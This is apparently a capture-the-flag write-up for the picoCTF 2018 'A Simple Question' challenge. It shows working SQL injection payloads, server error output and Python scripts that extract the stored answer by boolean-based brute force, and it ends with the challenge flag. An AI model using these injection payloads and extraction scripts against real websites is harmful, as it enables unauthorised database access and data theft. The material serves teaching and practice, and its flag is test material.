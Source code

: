 # A Simple Question
Web Exploitation, 650 points

## Description:
> There is a website running at http://2018shell3.picoctf.com:15987 (link). Try to see if you can answer its question.  


## Solution:

We are presented with a web form which contains a single question: "What is the answer?".

If we attempt to provide an arbitrary answer such as "42", we receive the following response:
```
SQL query: SELECT * FROM answers WHERE answer='42'

Wrong.
```

This looks like it's inviting SQL injection, so we enter "'" and confirm this suspicion:
```
SQL query: SELECT * FROM answers WHERE answer='''


Warning: SQLite3::query(): Unable to prepare statement: 1, unrecognized token: "'''" in /problems/a-simple-question_1_38a5203a4bf2b6a7be17ddae277acc80/webroot/answer2.php on line 15

Fatal error: Uncaught Error: Call to a member function fetchArray() on boolean in /problems/a-simple-question_1_38a5203a4bf2b6a7be17ddae277acc80/webroot/answer2.php:17 Stack trace: #0 {main} thrown in /problems/a-simple-question_1_38a5203a4bf2b6a7be17ddae277acc80/webroot/answer2.php on line 17
```

Trying various inputs brings us finally to the following one:
```
' union SELECT answer from answers where answer like '%
```

Which outputs:
```
SQL query: SELECT * FROM answers WHERE answer='' union SELECT answer from answers where answer like '%'

You are so close.
```

Playing around a bit more shows that we will need to use a boolean based injection attack.

For example, sending:
```
' union SELECT answer from answers where answer like '4%
```

Will result in:
```
SQL query: SELECT * FROM answers WHERE answer='' union SELECT answer from answers where answer like '4%'

You are so close.
```

But, sending:
```
' union SELECT answer from answers where answer like '5%
```

Will result in:
```
SQL query: SELECT * FROM answers WHERE answer='' union SELECT answer from answers where answer like '5%'

Wrong.
```

So, we can write a trivial brute-forcer which performs the following:
* Start with flag = ""
* For each printable char c:
  *  Set "partial_flag = flag + c" and try "`where answer like '<partial_flag>%`" 
  *  If "You are so close", append c to flag

Performing this gives us the flag "41andsixsixths" (we were almost right with our original guess!). However, surprisingly, the form does not accept this as the correct answer. Our method has a flaw: It assumes that if a positive response was received from the server, c is part of the flag. This is not necessarily correct.

Assume that the server will return "Wrong" if 0 results were returned from the query, and "You are so close" otherwise. Assume also that our table has two rows:
```
41andsixsixths
41Andsixsixths
```

Our naive method continues to the next character once it receives a positive response from the server, while there might be several other characters which would return a positive response as well. Therefore, we must attempt all possible "branches".

Therefore, the next step was to try and set an upper bound on the length of the answer.

First, by brute forcing it:
```python
import requests
q = "' union SELECT answer from answers where length(answer) = {} and answer like '%"
for i in range(100):
    r = requests.post("http://2018shell3.picoctf.com:15987/answer2.php",
                      data = {"answer": q.format(i), "debug": 1})
    if "You are so close." in r.text:
        print ("{}".format(i))
```

Then by confirming that 14 was the only valid result:
```
Input:
' union SELECT answer from answers where length(answer) != 14 and answer like '%

Output:
SQL query: SELECT * FROM answers WHERE answer='' union SELECT answer from answers where length(answer) != 14 and answer like '%'

Wrong.
```

So we know that the answer length is 14.

Now we can create a wider brute force attack:
```python
import requests
import string


URL = "http://2018shell3.picoctf.com:15987/answer2.php"

FLAG_LEN = 14
SPECIAL_CHARS = "%_"

def is_correct(guess):
    print ("Attempt: \t {}".format(guess))
    r = requests.post(URL, data = {"answer": guess, "debug": 0})
    if "You are so close." in r.text or "Wrong" in r.text:
        return False
    print ("Flag found: {}\n{}".format(guess, r.text))
    return True

def is_good_guess(guess):
    r = requests.post(URL, data = {"answer": "' union SELECT answer from answers where answer like '{}%".format(guess), "debug": 0})
    return "You are so close." in r.text

def solve(candidate):
    if len(candidate) == FLAG_LEN:
        return is_correct(candidate)

    for c in string.printable:
        if c == "'":
            continue
        if c in SPECIAL_CHARS:
            c = "\\" + c
        guess = candidate + c
        if is_good_guess(guess):
            if solve(guess):
                return True
    return False

solve("")
```

We use recursion to backtrack, trying out every path that gives us a positive response.

Running this gives the following (partial) output:
```
Attempt:         41andsixsixths
Attempt:         41andsixsixthS
Attempt:         41andsixsixtHs
Attempt:         41andsixsixtHS
Attempt:         41andsixsixThs
Attempt:         41andsixsixThS
Attempt:         41andsixsixTHs
Attempt:         41andsixsixTHS
Attempt:         41andsixsiXths
Attempt:         41andsixsiXthS
Attempt:         41andsixsiXtHs
Attempt:         41andsixsiXtHS
Attempt:         41andsixsiXThs
Attempt:         41andsixsiXThS
Attempt:         41andsixsiXTHs
Attempt:         41andsixsiXTHS
Attempt:         41andsixsIxths
Attempt:         41andsixsIxthS
Attempt:         41andsixsIxtHs
Attempt:         41andsixsIxtHS
Attempt:         41andsixsIxThs
Attempt:         41andsixsIxThS
Attempt:         41andsixsIxTHs
Attempt:         41andsixsIxTHS
Attempt:         41andsixsIXths
Attempt:         41andsixsIXthS
Attempt:         41andsixsIXtHs
Attempt:         41andsixsIXtHS
Attempt:         41andsixsIXThs
Attempt:         41andsixsIXThS
Attempt:         41andsixsIXTHs
Attempt:         41andsixsIXTHS
Attempt:         41andsixSixths
Attempt:         41andsixSixthS
Attempt:         41andsixSixtHs
Attempt:         41andsixSixtHS
```

It goes on and on, but it's pretty safe to assume that all combinations of uppercase-lowercase spelling exist in the DB.

While letting the script run in parallel, I tried to guess some common casing conventions, and got it right with CamelCase: `41AndSixSixths`.

The output:
```
SQL query: SELECT * FROM answers WHERE answer='41AndSixSixths'

Perfect!

Your flag is: picoCTF{qu3stions_ar3_h4rd_41da9e94}
```

The flag: picoCTF{qu3stions_ar3_h4rd_41da9e94}